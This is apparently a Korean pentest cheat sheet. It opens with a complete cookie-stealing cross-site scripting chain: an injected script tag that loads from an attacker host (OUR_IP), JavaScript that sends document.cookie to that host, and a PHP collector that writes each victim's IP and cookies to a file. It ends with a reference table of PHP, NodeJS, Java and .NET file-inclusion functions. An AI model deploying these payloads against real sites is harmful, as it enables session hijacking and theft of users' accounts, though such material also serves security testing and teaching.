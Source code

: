 ```
```><script src="http://OUR_IP/script.js"></script>```

### script.js
```document.location='http://OUR_IP/index.php?c='+document.cookie;```<br/>
또는 ```new Image().src='http://OUR_IP/index.php?c='+document.cookie;```

### index.php
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
<br/><br/>
# File Inclusion

| **Function**                 | **Read Content** | **Execute** | **Remote URL** |
| ---------------------------- | :--------------: | :---------: | :------------: |
| **PHP**                      |                  |             |                |
| `include()`/`include_once()` |        ✅         |      ✅      |       ✅        |
| `require()`/`require_once()` |        ✅         |      ✅      |       ❌        |
| `file_get_contents()`        |        ✅         |      ❌      |       ✅        |
| `fopen()`/`file()`           |        ✅         |      ❌      |       ❌        |
| **NodeJS**                   |                  |             |                |
| `fs.readFile()`              |        ✅         |      ❌      |       ❌        |
| `fs.sendFile()`              |        ✅         |      ❌      |       ❌        |
| `res.render()`               |        ✅         |      ✅      |       ❌        |
| **Java**                     |                  |             |                |
| `include`                    |        ✅         |      ❌      |       ❌        |
| `import`                     |        ✅         |      ✅      |       ✅        |
| **.NET**                     |                  |             |                |
| `@Html.Partial()`            |        ✅         |      ❌      |       ❌        |
| `@Html.RemotePartial()`      |        ✅         |      ❌      |       ✅        |
| `Response.WriteFile()`       |        ✅         |      ❌      |       ❌        |
| `include`                    |        ✅         |      ✅      |       ✅        |
